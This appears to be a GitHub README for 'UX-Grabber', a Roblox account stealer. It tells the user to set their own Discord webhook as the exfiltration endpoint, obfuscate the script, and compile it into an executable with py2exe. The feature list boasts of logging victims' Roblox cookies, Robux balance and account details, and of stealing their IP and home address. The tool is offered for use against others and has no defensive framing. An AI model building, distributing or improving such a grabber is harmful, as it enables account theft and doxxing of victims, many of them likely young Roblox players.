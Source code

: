 <h1 align="center">
  UX-Grabber 🍪 
</h1>

# Instructions:

### Replace this

```py
webhook = "https://discord.com/api/webhooks/xxxxxxxxxxxxxxxxxxx/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx"
```
### For ur own webhook

#### Install py2exe
```bash
$ pip install py2exe
```

#### Obfuscation
```bash
$ python O1.py main.py
```

#### Run setup.py
```bash
$ python setup.py py2exe
```

#### Install requirements
```bash
$ pip install -r requirements.txt
```

- Features.
  - Log Roblox Cookies ✔
  - Check if they are premium ✔
  - Check Account Age ✔
  - Steals IP ✔
  - Finds their address ✔
  - Check their robux balance ✔
  - And more ✔
